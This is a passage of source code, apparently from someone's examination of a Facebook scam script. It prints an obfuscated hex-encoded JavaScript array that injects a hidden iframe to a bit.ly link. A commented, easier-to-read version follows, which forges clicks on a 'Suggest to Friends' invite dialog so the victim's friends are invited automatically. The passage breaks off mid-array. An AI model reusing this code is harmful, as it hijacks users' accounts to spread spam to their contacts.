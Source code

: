         "\x76",
    "\x73\x6C\x69\x6E\x6B",
    "\x76\x61\x6C\x75\x65",
    "\x3C\x69\x66\x72\x61\x6D\x65\x20\x73\x72\x63\x3D\x22\x68\x74\x74\x70\x3A" +
        "\x2F\x2F\x62\x69\x74\x2E\x6C\x79\x2F\x64\x77\x44\x63\x76\x55\x22\x20" +
        "\x66\x72\x61\x6D\x65\x62\x6F\x72\x64\x65\x72\x3D\x22\x30\x22\x20\x77" +
        "\x69\x64\x74\x68\x3D\x22\x35\x32\x30\x22\x20\x68\x65\x69\x67\x68\x74" +
        "\x3D\x22\x38\x30\x30\x22\x20\x73\x63\x72\x6F\x6C\x6C\x69\x6E\x67\x3D" +
        "\x22\x6E\x6F\x22\x3E\x3C\x2F\x69\x66\x72\x61\x6D\x65\x3E",
    "\x61\x28\x29",
    "\x73\x65\x74\x54\x69\x6D\x65\x6F\x75\x74",
    "\x64\x69\x73\x70\x6C\x61\x79",
    "\x73\x74\x79\x6C\x65",
    "\x70\x61\x72\x65\x6E\x74\x4E\x6F\x64\x65",
    "\x70\x6F\x70\x5F\x63\x6F\x6E\x74\x65\x6E\x74",
    "\x6E\x6F\x6E\x65"
];
var v = [
    _0x8a00[0],
    _0x8a00[1],
    _0x8a00[2],
    _0x8a00[3],
    _0x8a00[4],
    _0x8a00[5],
    _0x8a00[6],
    _0x8a00[7],
    _0x8a00[8],
    _0x8a00[9],
    _0x8a00[10],
    _0x8a00[11],
    _0x8a00[12],
    _0x8a00[13],
    _0x8a00[14],
    _0x8a00[15],
    _0x8a00[16],
    _0x8a00[17],
    _0x8a00[18]
];

/*
 * Note: here's an easier-to-read version of the first one. It looks even more
 * suspicious, if possible.
 */

var _0x8a00 = [
    'innerHTML',
    'app4949752878_body',
    'getElementById',
    '<a id="suggest" ' +
        'href="#" ' +
        'ajaxify="/ajax/social_graph/invite_dialog.php?' +
            'class=FanManager&node_id=169625639721292" ' +
        'class=" profile_action actionspro_a" ' +
        'rel="dialog-post">' +
            'Suggest to Friends' +
    '</a>',
    'suggest',
    'MouseEvents',
    'createEvent',
    'click',
    'initEvent',
    'dispatchEvent',
    'select_all',
    'sgm_invite_form',